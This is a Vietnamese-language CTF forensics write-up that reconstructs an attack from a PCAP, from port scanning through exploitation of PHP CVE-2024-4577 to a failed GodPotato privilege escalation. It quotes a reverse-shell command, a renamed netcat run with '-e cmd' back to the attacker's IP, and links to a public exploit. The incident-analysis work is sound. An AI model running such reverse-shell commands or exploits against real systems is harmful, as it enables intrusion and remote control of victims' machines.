

# PacketPuzzle

Created by: Anh Tuan
Last edited: November 25, 2025 12:26 AM

> **You are a junior security analyst at a small Japanese cryptocurrency trading company. After detecting suspicious activity on the internal network, you exported a PCAP for further investigation. Analyze this capture to determine whether the environment was compromised and reconstruct the attacker’s actions.**
> 

Tải file zip về, extract ra file pcap và đẩy file lên https://redhand.io/analyzer/ để phân tích



- **What is the source IP address of the attacker involved in this Attack?**
    
    Chọn `Command & Control` để xem các C2 connection
    
    → 192.168.170.128
    
- **How many open ports did the attacker discover on the victim's system?**
    
    Quay trở lại wireshark vì không thằng nào thay thế được cái của nợ này.
    Nguyên lý cốt lõi bạn cần nắm vững: **Đừng nhìn vào cái Hacker gửi đi, hãy nhìn vào cái Nạn nhân trả lời.**
    
    Khi hacker scan port (thường là dùng Nmap), họ gửi hàng nghìn gói tin `SYN` đến các cổng.
    
    - Nếu cổng **ĐÓNG**: Server trả về `RST, ACK` (Reset).
    - Nếu cổng **MỞ**: Server trả về `SYN, ACK` (Chấp nhận kết nối).
    
    Trong filter, tìm kiếm với command
    
    ```
    tcp.flags.syn == 1 && tcp.flags.ack == 1 && ip.src == <IP_Target>
    ```
    
    Với `IP_Target` là IP của nạn nhân, dựa vào source IP của attacker đã tìm được ở phần trước. 
    
    
    
    Phân tích phần Info để xác định các port đang mở → 8
    
- **What is the first open port that responded on the victim's system during reconnaissance?**
    
    Cũng dựa vào kết quả trên → 22
    
- **What is the CVE identifier for the vulnerability exploited by the attacker?**
    
    Follow TCP Stream đối với các gói tin của port 80
    
    
    
    Với PHP 8.1.25, tìm kiếm các lỗ hổng được public của phiên bản php này, tôi tìm được https://github.com/watchtowrlabs/CVE-2024-4577
    
- **What is the name and version of the vulnerable product exploited to get RCE?**
    
    → PHP 8.1.25
    
- **What is the username of the victim account?**
    
    Đọc thông tin của gói tin → cristo
    
- **At what timestamp did the attacker execute the command to gain their initial foothold on the victim system?**
    
    Quay lại wireshark và tìm kiếm `http` trong filter
    
    
    
    Phân tích các gói tin bắt nguồn từ attacker và tìm thấy gói tin method POST vào `2025-01-22 09:47:32`
    
    
    
- **What is the MITRE ATT&CK technique ID used by the attacker to gain an initial foothold?**
    
    Phân tích lại về behavior của toàn bộ chuỗi tấn công thì tất cả bắt đầu từ việc attacker lợi dụng lỗ hổng của dịch vụ PHP để tấn công hệ thống. Hành động này trong MITRE thuộc [T1190](https://attack.cloudfall.cn/techniques/T1190/)
    
- **What is the name of the malicious executable the attacker downloaded and executed in memory to facilitate privilege escalation on the endpoint?**
    
    Quay trở lại gói tin mà attacker đã chạy command để tạo revershell và follow TCP stream để phân tích gói tin này, nhận thấy TCP stream của gói tin này là `1265`
    
    Điều hiển nhiên là sau khi tạo được revershell rồi thì attacker sẽ thực thi các câu lệnh qua giao thức TCP. Suy ra các thao tác tiếp theo sẽ được ghi lại với các TCP stream cao hơn.
    
    Sau khi tăng stream lên `1266` thì nhận được kết quả là các câu lệnh tiếp theo của attacker.
    
    Phân tích các câu lệnh này và tìm thấy 1 câu lệnh attacker sử dụng để tải lên 1 mã thực thi có tên `GodPotato-NET4.exe`
    
    
    
- **What is the command line used by the attacker while performing privilege escalation?**
    
    Vẫn ở phần TCP stream phía trên, nhìn thấy câu lệnh leo thang ngay bên dưới
    
    `./TimeProvider.exe -cmd "time.exe 192.168.170.128 5555 -e cmd"`
    
- **The attacker failed to escalate privileges and was given an error. What is the error?**
    
    Tiếp tục kéo xuống để phân tích tiếp log
    
    `Cannot create process Win32Error:2`